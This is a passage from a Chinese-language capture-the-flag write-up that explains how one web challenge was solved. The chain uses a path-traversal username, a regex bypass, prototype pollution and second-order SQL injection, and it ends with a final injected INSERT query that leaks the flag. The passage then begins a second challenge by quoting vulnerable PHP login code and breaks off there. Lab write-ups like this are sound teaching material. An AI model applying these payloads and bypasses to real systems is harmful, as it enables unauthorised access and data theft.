 GET token：

```json
{
    "username":"../../../../health?rdd/.",
    "password":"aaaa"
}
```

拿到token能访问的接口：http://flu.xxx:20035/api/transactions/1  （但是没数据可以读）
写下思路：
1. if (regex.test(req.url) && !hasPermission(userPermissions, username, permission)) { 
这里是and ，所以满足regex.test(req.url) = 0也是可以绕过校验，访问api/priv/assets
满足hasPermission需要构造出username为warrenbuffett69的jwt
2. 在api/priv/assets里注入or二次注入

路由的c解析库可能有问题，碰到#会把\变成/，但是req.url还是/api\priv/，可以绕过正则

![](https://i.imgur.com/BTY6cER.png)

![](https://i.imgur.com/GDYzVUh.png)

这里不难看出可以原型链污染，但是要配合最后的注入，把我们的payload注入进去

![](https://i.imgur.com/RQaYqOF.png)

这里escapedParams的遍历key可以把我们上一步构造的原型链污染的key获取到

![](https://i.imgur.com/P2qatc5.png)

这里的
username  = "../../::txId/../health?/."的构造，其实是利用replaceall，先把:txId替换成199152684014119，然后利用原型链注入进去的199152684014119这个key，将:199152684014119替换成我们的恶意sql

最后的query就是

```sql
INSERT INTO transactions (id, asset, amount, username) VALUES (95187879456802, '__proto__', -1, '../../'||(select flag from flag)||'/../health?/.')
```

最后附上简单的解题过程：

![](https://i.imgur.com/0xUbtWw.png)

![](https://i.imgur.com/DPiFdOy.png)

![](https://i.imgur.com/3dynoYq.png)

### Diamond Safe(Mid)

题目附件下下来

先看login.php中的代码

```php
$query = db::prepare("SELECT * FROM `users` where password=sha1(%s)", $_POST['password']);
if (isset($_POST['name'])){
    $query = db::prepare($query . " and name=%s", $_POST['name']);
}
else{
    $query = $query . " and name='default'";
}
    $query = $query . " limit 1";
    $result = db::commit($query);
```
